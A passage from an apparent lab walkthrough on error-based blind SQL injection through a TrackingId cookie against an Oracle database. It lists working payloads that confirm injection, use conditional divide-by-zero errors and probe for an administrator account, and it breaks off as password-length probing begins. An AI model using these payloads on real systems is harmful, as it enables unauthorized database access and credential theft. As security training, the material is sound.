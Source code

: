     ``` TrackingId=xyz'' ```

    Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

4. You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:

    ``` TrackingId=xyz'||(SELECT '')||' ```

    In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:

    ``` TrackingId=xyz'||(SELECT '' FROM dual)||' ```

    As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all *SELECT* statements to explicitly specify a table name.
5. Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:

    ``` TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||' ```

    This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.
6. As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query:

    ``` TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||' ```

    As this query does not return an error, you can infer that this table does exist. Note that the ``` WHERE ROWNUM = 1 ``` condition is important here to prevent the query from returning more than one row, which would break our concatenation.
7. You can also exploit this behavior to test conditions. First, submit the following query:

    ``` TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' ```

    Verify that an error message is received.
8. Now change it to:

    ``` TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' ```

    Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The *CASE* statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is *true*.
9. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username *administrator* exists:

    ``` TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' ```
    Verify that the condition is true (the error is received), confirming that there is a user called *administrator*.
10. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
